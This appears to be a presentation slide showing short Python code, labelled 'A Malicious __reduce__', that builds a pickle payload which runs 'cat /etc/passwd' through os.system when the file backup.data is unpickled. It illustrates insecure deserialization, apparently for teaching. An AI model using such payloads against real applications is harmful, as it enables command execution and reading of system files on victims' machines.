

# A Malicious __reduce__
import pickle
import os
class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('cat /etc/passwd', ))

pickle_data = pickle.dumps(EvilPickle())

with open("backup.data", "wb") as file:
    file.write(pickle_data)